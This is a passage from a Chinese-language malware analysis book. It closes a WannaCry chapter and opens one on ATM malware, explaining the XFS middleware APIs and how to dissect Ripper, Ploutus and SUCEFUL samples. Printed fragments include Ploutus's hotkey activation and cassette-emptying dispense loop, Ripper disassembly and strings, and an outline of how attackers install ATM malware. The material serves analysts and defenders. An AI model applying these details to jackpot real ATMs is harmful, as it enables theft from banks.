- 2. 私有 RSA 密钥使用攻击者硬编码的公共 RSA 密钥进行加密，
  除了攻击者之外，任何人都无法解密机器的私钥。
- 3. 为 Wannacry 加密的每个受害者文件生成一个随机 128 位 AES 密钥。
- 4. 生成的 RSA 密钥对的公开部分被用来加密用于加密用户文件的 AES 密钥，
  并作为受害者加密文件头部的一部分保存。

这是一个非常强大的加密设计，它阻止了除拥有硬编码公钥私有部分的攻击者之外的任何人，
解密用于加密受害者文件的 AES 密钥。

然而，对于受害者来说幸运的是，理论概念和实际实现往往为安全研究人员留出足够的空间，
以发现细微差别并攻击实现中的不足之处。在这种情况下，研究人员发现，在某些版本的
Windows 上，由于内存擦除不足，有可能恢复私钥 RSA 密钥的质数。这使得尚未终止勒索软件
进程的受害者可以在内存中查找私钥 RSA 密钥，并使用它来解密所有受影响的文件。

另一个漏洞被识别为，如果文件位于预定义位置列表之外，文件被删除的方式。位于预定义
目录列表中的明文文件在删除前会被随机数据覆盖。所有其他文件都只是从文件系统中删除，
而不覆盖文件内容。这使用户能够使用常见的取证工具来恢复已删除的明文文件，并部分
缓解勒索软件的影响。

并不总是有可能在勒索软件中找到漏洞并为受害者提供变通方法，但如果不去查看，人们
就无法指望找到任何漏洞。通过使用所提出的自下而上（bottom-up）方法，分析人员可以
快速识别代码的相关部分，深入大型二进制文件，专注于回答重要问题，并查找实现漏洞。

## 总结

从逆向工程的角度来看，处理勒索软件可能是一个真正的挑战。犯罪分子投入了大量精力，
试图在恶意软件被发现之前尽可能多地获利，使得恶意软件难以被检测和逆向。
研究和理解攻击者使用的方法和技术，有助于个人用户和企业保护自己免受不断增长的
新恶意软件家族的侵害。Wannacry 勒索软件令世界措手不及，并再次证明攻击者不需要
0 天漏洞就能造成破坏，而软件补丁仍然是一个全球性问题。

定期将个人数据备份到云服务提供商，并定期进行软件更新，可能是防范勒索软件最有效的
措施。

## 进一步阅读

- [艾滋病木马](en.wikipedia.org/wiki/AIDS_(trojan_horse))

- [Android Simplelocker 勒索软件](nakedsecurity.sophos.com/2014/06/06/cryptolocker-wannabe-simplelocker-android/)

- [比特币](en.wikipedia.org/wiki/Bitcoin)

- [EternalBlue](https://en.wikipedia.org/wiki/EternalBlue)

- [“锁定 Windows 桌面”](www.codeproject.com/Articles/7392/Lock-Windows-Desktop)

- [赛门铁克勒索软件视频](symantec.com/tv/allvideos/details.jsp?vid=1954285164001)

- [Trojan.Cryptolocker.E](www.symantec.com/security_response/writeup.jsp?docid=2014-050702-0428-99)

- [Wannacry](https://en.wikipedia.org/wiki/WannaCry_ransomware_attack)

## 第 20 章

## ATM 恶意软件

自动柜员机（ATM）是犯罪分子的主要目标，原因很简单：里面装满了现金！二十年前，犯罪分子面临的挑战是闯入存放资金的安全 ATM 保险库，但在近年来，攻击者通过感染 ATM 来传播恶意软件，找到了一条可能更容易获取资金的途径。在本章中，我们将介绍近年来一些最危险的 ATM 恶意软件，更重要的是，介绍有助于剖析和识别妥协指标的技术。此外，我们还将介绍减轻 ATM 恶意软件所带来风险的方法。

在本章中，我们将讨论以下主题：

- 自动柜员机（ATMs）
- 金融服务扩展（XFS）
- XFS 架构
- XFS 管理器
- ATM 恶意软件
- ATM 恶意软件对策

### ATM 概述

自动柜员机已经存在了 50 多年，其主要目的是发放现金。然而，如今这些机器还可以用于支付公用事业账单、为手机充值，甚至存入支票。在本章中，我们将使用一台真实的 NCR Personas 5877 ATM（P77），这是一款基于 Windows PC 的自助服务 ATM。图 20-1 显示了机器的外部组件。其中一些组件不言自明，但以下组件需要更多解释：


图 20-1 NCR Personas 5877 的外部视图

- Fascia 面板 面板仅覆盖 ATM 的上半部分，并允许访问 PC 硬件。面板通过顶部锁匙打开。
- Keylock 锁匙 锁匙保护 ATM 的下半部分，安全保险库（和资金）就位于此处。
- Display/touchscreen 显示器/触摸屏 即使是旧显示器也具有触摸屏支持，以便与 ATM 进行交互。
- Keyboard 键盘 也称为 pinpad，键盘允许用户与 ATM 进行交互。
- Dispenser 出钞机 这是用户进行现金取款的主要 ATM 组件，本章后面将详细介绍。

接下来，图 20-2 显示了打开上半部分和下半部分后 ATM 的内部。上半部分包含 PC 核心，基本上是运行操作系统（OS）的 CPU，以及外设和端口，还有以下两个重要组件：


图 20-2 NCR Personas 5877 的内部视图

- On/off switch 电源开关 用于开启和关闭 ATM
- Supervisor/operator panel 监管员/操作员面板 用于将 ATM 置于配置模式，通常由测试或配置机器的技术人员使用

下半部分显示了安全保险库内的以下组件：

- Purge bin 处理箱 存放无法发放的被拒绝钞票
- Currency cassettes 货币货柜 存放 ATM 中可用的现金。每个货柜存放不同面值（例如，$20、$50 或 $100 钞票）。具体取决于供应商，ATM 可以有一个或多个货柜。
- Interlock switch 联锁开关 这是一个传感器，允许 ATM 知道安全门何时打开。

既然我们已经介绍了主要组件，它们如何相互交互呢？我们可以通过查看现金取款过程中的步骤来理解（ATM 组件已加粗）：

- 1. 持卡人将借记卡插入卡片阅读器。
- 2. 持卡人通过键盘（pinpad）输入个人识别号码（PIN）。
- 2. 卡片数据和 PIN 都由 XFS 管理器（PC 核心）处理，并发送到银行进行验证。
- 4. 银行验证卡片并返回授权结果。
- 5. 如果卡片获批，XFS 管理器会向位于安全保险库中的出钞机发送通知，以发放资金。
- 6. 出钞机与存放所需面值的货柜交互，并开始发放现金。
- 7. 收据打印机被调用，向持卡人提供交易收据。

### XFS 概述

金融服务扩展（XFS）最初由银行解决方案供应商委员会（BSVC）创建，该委员会由 Microsoft 于 1995 年发起，后来于 1998 年被欧洲标准化委员会（也称为 CEN）采纳为国际标准。

最初，BSVC 决定将 Microsoft Windows 用作 XFS 的操作系统，但随后采用并增强了 Windows 开放服务架构（WOSA）与 XFS，为金融应用程序定义了基于 Windows 的客户端/服务器架构，因此得名 WOSA/XFS。WOSA/XFS 包含用于访问金融外设的规范，包括但不限于打印机、卡片阅读器、pinpad、出钞机和货柜。

本节提供 WOSA/XFS 的概述。有关更多详细信息，建议您阅读由 CEN 创建的完整规范 CWA 13449-1。

### XFS 架构

当今所有主要 ATM 供应商都使用 Windows 作为操作系统，因此必须遵守由 CEN 定义的 XFS 标准。工作流程如下所示


步骤：
- 1. 基于 Windows 的应用程序通过 XFS 管理器使用预定义的一组应用级 API（WFS 前缀）与外围设备通信。
- 2. XFS 管理器将指定的应用级 API 映射到相应服务提供商的 API（WFP 前缀）。
  - a. XFS 管理器使用存储在注册表中的配置信息进行映射过程。
  - b. XFS 管理器和服务提供商是厂商特定的实现。
- 3. 外围设备的任何结果都通过 XFS 管理器的 API（WFM 前缀）发回给基于 Windows 的应用程序。

XFS 架构如图 20-3 所示。


图 20-3 XFS 架构

以下示例显示了在基于 Windows 的应用程序与 XFS 管理器交互过程中常用的应用级 API：

- WFSStartUp() 将基于 Windows 的应用程序与 XFS 管理器连接。
- WFSOpen() 在基于 Windows 的应用程序和服务提供商之间通过 XFS 管理器建立会话。
- WFSRegister() 配置从服务提供商接收的消息。
- WFSLock() 对外围设备提供独占访问权限。
- WFSExecute() 多次调用此函数可指定不同的命令，例如 Dispense、Read Card、Print 等等。
- WFSUnlock() 释放对外围设备的控制权。
- WFSDeregister() 停止接收来自服务提供商的消息。
- WFSClose() 结束会话。
- WFSCleanUp() 将应用程序与 XFS 管理器断开连接。


NOTE 每个 XFS API 都有同步版本和异步版本，调用时的工作方式如下：

同步调用 程序将被阻塞，直到函数完成整个操作。在这种情况下，应用程序按顺序执行。

异步调用 函数会立即返回，但会在不确定的时间内完成。

## XFS 管理器

每个 ATM 厂商都通过其自身的中间件实现自己的 XFS 管理器，始终遵循 CEN 定义的 WOSA/XFS 标准。以下是当前可用的最著名的 XFS 中间件列表：

- Diebold: Agilis Power
- NCR: APTRA ActiveXFS
- KAL: Kalignite
- Wincor Nixdorf: Probase (与 Diebold 合并)

如前一节所述，XFS 管理器负责将 API 函数（以 WFS 开头的 DLL）映射到 SPI 函数（以 WFP 开头的 DLL）并调用厂商特定的服务提供商。要观察此过程的实际运行，让我们使用 FreeXFS Framework（OpenXFS_V0.0.0.5.rar），它附带了 XFSManager 的完整实现、各种设备的服务提供商接口（SPI）以及基于 CEN XFS 3.0.2 的示例应用程序代码。

如果我们通过 FreeXFS 查看 XFSManager 实现，该实现位于 \Manager\NI_XFSManager.h 文件中，可以清楚地看到支持的 WFS 和 WFM API 的定义：

```
NI_XFSMANAGER_API HRESULT extern WINAPI WFSStartUp ( DWORD dwVersionsRequired, LPWFSVERSION lpWFSVersion);
NI_XFSMANAGER_API HRESULT extern WINAPI WFSOpen ( LPSTR lpszLogicalName, HAPP hApp, LPSTR lpszAppID, DWORD dwTraceLevel, DWORD dwTimeOut, DWORD dwSrvcVersionsRequired, LPWFSVERSION lpSrvcVersion, LPWFSVERSION lpSPIVersion, LPHSERVICE lphService);
NI_XFSMANAGER_API HRESULT extern WINAPI WFSRegister ( HSERVICE hService, DWORD dwEventClass, HWND hWndReg);
NI_XFSMANAGER_API HRESULT extern WINAPI WFSExecute ( HSERVICE hService, DWORD dwCommand, LPVOID lpCmdData, DWORD dwTimeOut, LPWFSRESULT * lppResult);
NI_XFSMANAGER_API HRESULT extern WINAPI WFSCleanUp ();
NI_XFSMANAGER_API HRESULT extern WINAPI WFMAllocateBuffer( ULONG ulSize, ULONG ulFlags, LPVOID * lppvData);
NI_XFSMANAGER_API HRESULT extern WINAPI WFMAllocateMore( ULONG ulSize, LPVOID lpvOriginal, LPVOID * lppvData);
NI_XFSMANAGER_API HRESULT extern WINAPI WFMFreeBuffer( LPVOID lpvData);
```


NOTE 这些 API 的实现可以在 \Manager\NI_XFSManager.cpp 中找到。

让我们探索 \Samples\WosaXFSTest20100106\WosaXFSTestView.cpp 中的代码，以充分了解 XFS 管理器的操作。

## 步骤 1：WFSStartUp

第一步是将基于 Windows 的应用与 XFS 管理器连接：

```
if(m_strXFSPath == "") m_strXFSPath = FindXFSManagerPath(); ①
if(!LoadManagerFunction(m_strXFSPath)){ ②
 m_strResult += _T("WFSStartUp error in loading functions.\r\n");
 m_bStartUp = FALSE;
}
else{
HRESULT hr = (*m_pfnWFSStartUp)( nVersion, &WFSVersion); ④
if(hr == S_OK){
 str.Format("WFSStartUp OK with version %08X\r\n", nVersion);
 m_bStartUp = TRUE;
}
}
CString CWosaXFSTestView::FindXFSManagerPath() ①
{
    HRESULT hr = WFMOpenKey(HKEY_CLASSES_ROOT, //WOSA/XFS_ROOT/LOGICAL_SERVICES,
                          "WOSA/XFS_ROOT", //lpszSubKey,
                          &hKeyXFS_ROOT); //phkResult, lpdwDisposition
    if(hr != WFS_SUCCESS) return -1;
}

BOOL CWosaXFSTestView::LoadManagerFunction(CString strPath) ②
{
    m_hLib = LoadLibrary(strPath);
    if(m_hLib == NULL){
        m_strResult += _T("Load XFS Manager failed.\\r\\n");
        UpdateData(FALSE);
        return FALSE;
    }
    else
    {
        m_strResult += _T("Load XFS Manager succeeded.\\r\\n");
        UpdateData(FALSE);
    }

    m_pfnWFSStartUp = (pfnWFSStartUp)GetProcAddress(m_hLib, "WFSStartUp"); ⑤
    m_pfnWFSOpen = (pfnWFSOpen)GetProcAddress(m_hLib, "WFSOpen");
    m_pfnWFMAllocateBuffer = (pfnWFMAllocateBuffer)GetProcAddress(m_hLib, "WFMAllocateBuffer");
}
```

除此之外，XFS 管理器必须先加载到内存中；然后它以 DLL 形式实现，关联路径存储在注册表中。在本示例中，FindXFSManagerPath() 函数 ①（重复出现以同时显示函数实现；调用标记 ② 亦然）有助于检索此值。一旦确定 DLL 路径，LoadManagerFunction() ② 将通过 LoadLibrary API 将其加载到内存中。在同一函数中，XFS 管理器支持所有 WFS* 和 WFM* 函数，并通过 GetProcAddress API ③ 加载。

此时，XFS 管理器已加载到内存中，现在需要通过 WFSStartUp API ④ 与基于 Windows 的应用程序连接，该 API 将其第一个参数作为 XFS 管理器预计处理的 SPI 版本范围。如果中间件不支持这些版本，调用将返回错误。

## 步骤 2：WFSOpen

一旦基于 Windows 的应用程序和 XFS 管理器同步，就可以与 ATM 外围设备（也称为 _逻辑服务_）进行交互，以执行任何所需操作，例如打开卡阅读器或出钞。与外围设备的交互是通过其 SPI 进行的，因此我们首先需要通过查询 Windows 注册表中的 HKEY_USERS\.DEFAULT\XFS\LOGICAL_SERVICES\ 来识别所有可用的逻辑服务。

有必要提及的是，每个 ATM 厂商都有自己的命名约定；例如，NCR 将其出钞机命名为 CurrencyDispenser1，而 Diebold 使用名称 DBD_AdvFuncDisp。当我们试图识别 ATM 恶意软件的目标时，这些指示非常有帮助。此注册表键的另一个用途是，在开始与外围设备交互之前，通过 WFSGetInfo API 查询外围设备的状态。更多详细信息将在本章后面的“ATM 恶意软件分析”部分中提供。

一旦确定了要交互的逻辑服务，WFSOpen API（或 WFSAsyncOpen API，具体取决于应用程序的需求）将此值作为第一个参数接收，遵循我们基于 WosaXFSTestView.cpp 的示例。该值通过 m_strLocalService 变量 ⑤ 传递，如下所示：

```
hr = (*m_pfnWFSOpen) (m_strLocalService.GetBuffer(0), ⑥
    m_hAppSync, //WFS_DEFAULT_HAPP, //hApp,
    "MySession", //NULL, //LPSTR lpszAppID,
    WFS_TRACE_ALL_API, //NULL, //DWORD dwTraceLevel,
    WFS_INDEFINITE_WAIT, //DWORD dwTimeOut,
    0x00020003, //DWORD dwSrvcVersionsRequired,
    &WFVersion1, //LPWFVERSION lpsrvcVersion,
    &WFVersion2, //LPWFVERSION lpSPIVersion,
    &hService // LPHSERVICE lphService
    );
if(hr == 0) m_hSyncService = hService; else m_hSyncService = 0;
```

```
if(hr == 0)
{
    CString str;
    str.Format("OK SyncOpen Service ID = %d SPI version High %04X Low %04X\\r\\n",m_hSyncService,WFVersion2.wHighVersion,
    WFVersion2.wLowVersion);
}
```

传递给函数的其余参数不言自明，且对于我们的分析目的并不重要。

那么，XFS 管理器如何知道要交互的 SPI DLL 呢？它也来自注册表键 \XFS\SERVICE_PROVIDERS\，并基于之前识别的逻辑服务。图 20-4 显示密码键盘 SPI 的 DLL 是 NCR_PINSP.DLL。请注意，SPI 由每个厂商独立实现。


## 图 20-4 识别 SPI DLL

## 步骤 3: WFSRegister

现在是时候通过 WFSRegister API 配置要从服务提供程序接收的消息了。在以下代码中，我们看到正在配置来自 SYSTEM、USER、SERVICE 和 EXECUTE 的事件：

```
if(m_hSyncService) {
    WriteScript("Do", _T("SyncRegister"), _T(" "));

    HRESULT hr = m_pfnWFSRegister (m_hSyncService
        ,SYSTEM_EVENTS | USER_EVENTS | SERVICE_EVENTS | EXECUTE_EVENTS
        , m_hWnd);
}
```

## 步骤 4: WFSExecute

最后，最后一个主要步骤（我们跳过了不需要的某些步骤）是通过 SPI 实现请求外围设备（或逻辑服务）执行操作。常见操作包括要求卡阅读器读取借记卡磁道 1 和 2 上的数据，以及要求出钞机出钞！

图 20-5 展示了 Ripper³ 恶意软件的运行情况（本章后续将使用此示例恶意软件，15632224b7e5ca0cb0a042daf2adc13），调用 WFSAsyncExecute API 并在其第二个参数中接收要执行的操作（在此例中，WFS_CMD_PIN_GET_DATA，用于读取在 PIN 密码键盘上输入的信息）。

```
xor             ebx, ebx
push            408             ; WFS_CMD_PIN_GET_DATA
inc             ebx
push            ecx
mov             [ebp+var_1A], ebx
mov             [ebp+var_A], 0C000h
mov             [edx+83Ch], bl
call            ds:WFSAsyncExecute
```

图 20-5 与 PIN 密码键盘交互

我们已经了解 XFS 合规 ATM 在处理日常操作时遵循的所有细节，并讨论了 XFS 管理器在协调这项工作中的重要性。在下一节中，我们将探讨分析 ATM 恶意软件的一些技术。

## ATM 恶意软件分析

既然你了解了 XFS 合规 ATM 从端到端的工作原理，让我们来看看一些基于野外发现的真实威胁的 ATM 恶意软件解剖有用技术。

我们将快速概述 ATM 恶意软件的主要特征，让你了解野外存在哪些类型的威胁，它们如何安装在 ATM 上，恶意软件如何与攻击者交互，以及恶意软件如何窃取信息或资金！

## ATM 恶意软件类型

ATM 恶意软件分为两种类型：影响持卡人的恶意软件和影响银行的恶意软件。

## 影响持卡人的恶意软件

这种类型的恶意软件专注于从 ATM 窃取信息，例如受害者的全名、借记卡号、到期日和加密的 PIN 码。所有这些数据随后都会在黑市上出售，在那里会制作克隆卡并进行未经授权的在线支付。从恶意软件分析的角度来看，这些威胁充当信息窃取者——在分析过程中不一定需要了解 ATM。这类威胁的示例包括在拉丁美洲发现的 PanDeBono 和 NeaBolsa。⁴ 这些威胁通过插入机器的 USB 设备窃取信息，并在内部运行的恶意软件中被识别和验证。

尽管盗刷设备与物理攻击相关，因此超出本章范围，但提及它们还是有价值的，因为它们影响持卡人。这些设备以隐藏的方式物理附加到 ATM 上，以便受害者看不见它们（参见图 20-6）。这些设备可以带有摄像头，也可以伪装成 PIN 密码键盘或卡阅读器，主要用于捕获输入的 PIN 码或窃取卡数据。它们可以通过蓝牙、GSM 或其他任何无线通信将窃取的信息实时发送给攻击者。


图 20-6 附加在 ATM 上的盗刷设备

在墨西哥坎昆曾发生过一起已知案例，盗刷设备被安装在 ATM 内部并通过蓝牙与攻击者通信。大多数受感染的机器位于酒店和机场这一事实表明，当地黑帮得到了来自“合法”企业人员的支持。“报警最多无济于事，甚至可能很危险；墨西哥警察臭名昭著地腐败，据我所知，读卡器诈骗者可能正在付钱给警察以换取保护，”Brian Krebs 写道。⁵

## 影响银行的恶意软件

这种类型的恶意软件会清空 ATM；因此，持卡人受影响不大，但银行会受影响。这要么通过重用机器中安装的 XFS 中间件完成，要么通过创建 XFS 合规应用程序完成。这类威胁的示例包括 Ploutus、Alice、SUCEFUL、Ripper、Padpin（后来被卡巴斯基命名为 Tyupkin）以及 GreenDispenser。

## 在 ATM 上安装恶意软件的技术

本节将描述攻击者用于在 ATM 上感染恶意软件的不同技术。

### 物理攻击和虚拟攻击

对于物理攻击，攻击者打开 ATM 的上部（参见图 20-1），并通过以下技术传输恶意软件：

- 连接 USB 或 CD-ROM 并重启机器。发生这种情况后，BIOS 顺序会更改为从新连接的设备启动并开始恶意软件安装。
- 移除 ATM 的硬盘，将其作为从盘连接到攻击者的笔记本电脑，并传输恶意软件。或者，用攻击者已为目标型号准备好的硬盘替换 ATM 硬盘。


> 注意 Ploutus 团伙已知在拉丁美洲的 ATM 上使用这两种技术。

对于虚拟攻击，攻击者入侵银行的网络或支付网关。进入后，目标是找到 ATM 连接的网络段并定位漏洞，以便通过网络将恶意软件投放到出纳机上。这种攻击非常强大，因为它可以感染全球任何 ATM。Ripper ATM 恶意软件就是如此；攻击者通过银行网络感染了泰国的机器，然后*骡子*（负责接收机器吐出现金的人）飞往该地区，在几小时内清空了机器！

### 恶意软件与攻击者交互

一旦恶意软件在 ATM 内部安装完成，攻击者需要一种与之交互而又不被持卡人注意的方法。这意味着恶意软件界面只在接收到某种激活后才会在屏幕上弹出。

最早已知的交互案例（由 MD5 为 488acf3e6ba215edef77fd900e6eb33b 的 Ploutus 恶意软件使用）涉及连接到 ATM 的外部键盘。Ploutus 执行所谓的“键盘记录”，这使攻击者能够拦截任何按键输入，一旦找到正确的按键组合，它就会激活允许攻击者按需出钞的 GUI。在以下代码清单中，Ploutus 正在检查是否输入了任何 F 键以执行特定命令。例如，F4 键将隐藏 GUI 界面。

```
if (PloutusService.MemoryData.GuiEnable)
{
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F1)
    PloutusService.Keyboard.ProcessCommandGui(1);
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F2)
    PloutusService.Keyboard.ProcessCommandGui(2);
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F3)
    PloutusService.Keyboard.ProcessCommandGui(3);
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F4)
    {
    PloutusService.Program.NCRV.UIDisable();
    PloutusService.Program.NCRV.ClearText();
    PloutusService.MemoryData.Command = System.String.Empty;
    }
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F5)
    PloutusService.Program.NCRV.KeyControlUp();
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F6)
    PloutusService.Program.NCRV.KeyControlDown();
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F7)
    PloutusService.Program.NCRV.KeyControlNext();
    if (KeyData.KeyCode == System.Windows.Forms.Keys.F8)
    PloutusService.Program.NCRV.KeyControlBack();
}
```

第二种交互形式是通过 PIN 密码键盘，攻击者输入一组数字以调出恶意软件界面。为了实现这一点，恶意软件需要使用 XFS API，如图 20-5 所示，其中命令 PIN_GET_DATA 正在读取输入的信息。

最后一种交互形式是通过 ATM 的卡阅读器。与 PIN 密码键盘策略类似，恶意软件使用 XFS API，但这次是为了与目标设备交互并读取借记卡磁道 1 和 2 上的数据。如果提供了攻击者期望的魔数，GUI 将被激活。在 Ripper 等情况下，这就是开始清空 ATM 的触发点。

## 信息或资金如何被窃取

在目标是持卡人数据的情况下，如果使用盗刷设备，这些设备已经带有 GSM 等无线协议，允许攻击者实时接收窃取的信息。当使用恶意软件实现此目标时，例如 PanDeBono 或 NeaBolsa 恶意软件的情况，窃取的信息会被复制到插入 ATM 的攻击者的 USB 中。

关于现金，所有威胁都只需使用 XFS API 即可与 ATM 出钞机交互（无需漏洞利用或身份验证绕过），且没有任何限制，出钞机就会开始提供现金。有关如何缓解这些风险的建议，请参阅本章后面的“ATM 恶意软件对策”部分。


## 恶意软件解剖技巧

在本节中，我们将讨论如何解剖 ATM 恶意软件并提取最重要的妥协指标（IOC）。在恶意软件调查期间，主要目标应如下：

- 1. 确认样本针对的是 ATM。
- 2. 确认样本具有恶意性。
- 3. 识别恶意软件的安装方式。通常很难知道这一点，除非受影响的客户提供该信息。
- 4. 识别恶意软件如何与攻击者交互。
- 5. 识别恶意软件的目的：要么针对持卡人，要么针对 ATM 内部的现金。

本节详细介绍了所有这些步骤。

### 确认样本针对 ATM

如果您的工作需要分析 ATM 恶意软件，首先要做的是确认提供的样本确实针对这些机器。验证这一点的一种方法是检查相关二进制文件是否正在导入 MSXFS.dll，这是柜员机中实现默认 XFS 管理器的 DLL（本章前面描述的所有 WFS* 和 WFM* 函数）。这是一个强有力的指标。图 20-7 显示了 Ripper ATM 恶意软件的导入表（在 UPX 解包恶意软件后），您可以看到已导入 MSXFS.dll。其他恶意软件家族也是这种情况，例如 GreenDispenser、Alice、SUCEFUL 和 Padpin。

| 函数 | DLL |
| :--- | :--- |
| GetStackObject | GDI32.dll |
| WFSClose | MSXFS.dll |
| WFSAyncExecute | MSXFS.dll |
| WFSFreeResult | MSXFS.dll |
| WFSGetInfo | MSXFS.dll |
| WFSExecute | MSXFS.dll |
| WFSRegister | MSXFS.dll |
| WFSOpen | MSXFS.dll |
| WFSCancelAsyncRequest | MSXFS.dll |
| WFSStartUp | MSXFS.dll |
| WFSCleanUp | MSXFS.dll |
| CoTaskMemFree | ole32.dll |
| CoInitialize | ole32.dll |
| CoUninitialize | ole32.dll |
| CoCreateInstance | ole32.dll |
| ShellExecuteW | SHELL32.dll |
| ShellExecuteA | SHELL32.dll |
| SetWindowTextA | USER32.dll |
| UpdateWindow | USER32.dll |
| EnableWindow | USER32.dll |
| DefWindowProcW | USER32.dll |
| DispatchMessageW | USER32.dll |
| TranslateMessage | USER32.dll |
| ShowWindow | USER32.dll |
| GetDesktopWindow | USER32.dll |
| BroadcastSystemMessageW | USER32.dll |
| CreateWindowExA | USER32.dll |
| GetWindowLongW | USER32.dll |
| RegisterClassExW | USER32.dll |
| LoadCursorW | USER32.dll |
| CreateWindowExW | USER32.dll |
| ExitWindowsEx | USER32.dll |
| SetTimer | USER32.dll |
| GetWindowRect | USER32.dll |
| GetMessageW | USER32.dll |
| PostQuitMessage | USER32.dll |
| RegisterWindowMessageW | USER32.dll |
| KillTimer | USER32.dll |
| LoadIconW | USER32.dll |
| DestroyEnvironmentBlock | USERENV.dll |
| CreateEnvironmentBlock | USERENV.dll |
| WTSQueryUserToken | WTSAPI32.dll |
| WFMQueryValue | XPS_CONF.dll |
| WFMOOpenKey | XPS_CONF.dll |
| WFMEnumKey | XPS_CONF.dll |
| WFMCloseKey | XPS_CONF.dll |

图 20-7 Ripper ATM 恶意软件导入 MSXFS.dll

诸如 Ploutus 之类的恶意软件不遵循相同的策略，因此您不会找到相同的指标。相反，您应该查找对 XFS 中间件的引用。Ploutus 能够控制来自 NCR 的 APTRA 中间件或来自 Kalignite 的中间件，后者是一个多供应商解决方案。在这些情况下，您应该查找 NCR.APTRA.AXFS 和 K3A.Platform.dll 等库的存在，并相应地进行验证。


NOTE 此方法假设恶意软件未被打包或混淆。如果属于这种情况（Ploutus 始终高度混淆），则第一步是对样本进行去混淆或解包，然后尝试查找上述指标。

### 确认样本具有恶意性

既然我们已确定正在处理的样本肯定是为了在 ATM 机上运行而创建的，那么确认它是否具有恶意性就很重要。否则，我们可能正在处理用于合法目的的 ATM 测试工具（例如，执行取款或卡片读取以确认外围设备按预期工作）。

验证恶意性的一种方法是查找样本中的日志记录或自定义错误消息。有时很容易发现这些自定义消息。例如，在撰写本文时，最新的 Ploutus-D 变体带有消息“PLOUTUS-MADE-IN-LATIN-AMERICA-XD”，这明确表明它是恶意软件。图 20-8 显示了在 Ripper 恶意软件中找到的字符串摘要。查看此处的自定义消息，例如“Dispensing %d items from cash unit”以及“CLEAN LOGS”和“NETWORK: DISABLE”，您可以看到它们强烈暗示此样本正在进行恶意操作。

```
Dispensing %d items from cash unit #%d
info*
CleanUp*
info*
/cleanup*
Uninstall*
info*
Uninstall Service*
info*
Network Disable*
info*
Network Enable*
info*
DISPENSE*
SETTINGS*
HIDE*
REBOOT*
%s:%d (%d) = %d
INIT:%d = %d, %d%%
HIDE*
BACK*
1.Ignore cassette balance*
2.CLEAN LOGS*
3.HIDE*
4.BACK*
5.UNINSTALL*
6.UNINSTALL SERVICE*
7.NETWORK: ENABLE*
8.NETWORK: DISABLE*
```

图 20-8 Ripper 中的自定义错误消息

另一个重要的验证与尝试出钞的代码相关（更棒的是，如果取款在循环中进行，试图清空 ATM）。以下代码清单显示了 Ploutus 版本中的著名循环。它检索钞盒 4 的面额（$5、$20、$50 或 $100），然后乘以出钞机允许的最大钞票数量（在此场景中，NCR Personas 为 40，这是 Ploutus 的目标之一），以计算要取款的总金额 2。如果钞盒中的钞票数量少于 40，则移动到下一个钞盒并执行相同的操作 3。Ploutus 想要从装载更多钞票的钞盒开始！此过程重复 4，直到钞盒中不再有现金。

```
int i2 = Cassette4.CashUnitValue;
DispenceA = PloutusService.MemoryData.Bill * System.Int32.Parse(i2.ToString());②
int i3 = Cassette4.UnitCurrentCount;
PloutusService.Utilis.UpdateLog("CashUnitCurrentCount -Cassette4:" + i3);
if (System.Int32.Parse(i3.ToString()) < 40)
{
    int i4 = Cassette3.CashUnitValue;③
    DispenceA = PloutusService.MemoryData.Bill * System.Int32.Parse(i4.ToString());
}
int i5 = Cassette4.UnitCurrentCount;
int i6 = Cassette3.UnitCurrentCount;
PloutusService.Utilis.UpdateLog("CashUnitCurrentCount -Cassette3:" + i6);
if ((System.Int32.Parse(i5.ToString()) < 40) & (System.Int32.Parse(i6.ToString()) < 40))
{
    int i7 = Cassette2.CashUnitValue;④
    DispenceA = PloutusService.MemoryData.Bill * System.Int32.Parse(i7.ToString());
}
int i8 = Cassette4.UnitCurrentCount;
int i9 = Cassette3.UnitCurrentCount;
int i10 = Cassette2.UnitCurrentCount;
PloutusService.Utilis.UpdateLog("CashUnitCurrentCount -Cassette2:" + i10);
if ((System.Int32.Parse(i8.ToString()) < 40) & (System.Int32.Parse(i9.ToString()) < 40) & (System.Int32.Parse(i10.ToString()) < 40))
{
    int i11 = Cassette1.CashUnitValue;
    DispenceA = PloutusService.MemoryData.Bill * System.Int32.Parse(i11.ToString());
}
```

### 识别恶意软件如何与攻击者交互

此步骤将传统恶意软件分析与基于 ATM 的分析区分开来。在这里，我们专注于 XFS API 的分析，以了解恶意软件的目的。需要关注的两个主要 API 是 WFSOpen 和 WFSExecute（或其异步版本）。

如前几节所述，WFSOpen API 允许我们知道恶意软件正在尝试交互的外围设备。这将为我们提供恶意软件试图做什么的线索。例如，如果我们只看到与密码键盘的交互，那么那很可能是与恶意软件交互的方式。

如果您进入 IDA 反汇编器的 Imports 选项卡，然后在相关 API 上按 X，将显示二进制文件中对该 API 的所有引用（见图 20-9）。


图 20-9 IDA 中的交叉引用功能

一旦您识别出对 WFSOpen 的调用，只需查看第一个参数的内容即可，该参数是一个标识要交互的外围设备的字符串（请记住，此名称会因 ATM 厂商而异）。在图 20-10 中，显示了 SUCEFUL ATM 恶意软件^6 与两个厂商的卡片读卡器外围设备交互的示例：Diebold（称为 DBD_MotoCardRdr）和 NCR（称为 IDCardUnit1）。

```
mov device_409194, offset aDbdMotocardrdr_0 ; "DBD_MOTOCARDRDR"
push offset word_40C234
push offset unk_40C43E
push offset unk_40C236
push dword_409198
push word_40C650
push dword_40C22C
push dword_40C228
push dword_40C224
push device_409194
call WFSOpen_40C70C
```

```
mov device_409194, offset aIdcardunit1 ; "IDCardUnit1"
push offset word_40C234
push offset unk_40C43E
push offset unk_40C236
push dword_409198
push word_40C650
push dword_40C22C
push dword_40C228
push dword_40C224
push device_409194
call WFSOpen_40C70C
```

图 20-10 不同厂商的 WFSOpen 调用

一旦您了解恶意软件正在尝试交互的外围设备或逻辑设备，它就


是时候找出要执行的命令了，确保将 WFSOpen 调用与 WFSExecute 调用相关联，以区分所请求的操作。一旦识别出 WFSExecute 调用，您需要关注第二个参数，它是一个表示要执行的操作的数字。再次，以 Ripper 为例。在以下代码清单中，被压入的第二个参数是数字 302（参见行 .text:004090B8），但这个数字的用途是什么？

```
.text:004090B8 push 302
.text:004090BD push eax
.text:004090BE mov word ptr [ebp-28h], 2020h
.text:004090C4 mov byte ptr [ebp-26h], 20h
.text:004090C8 mov [ebp-25h], ecx
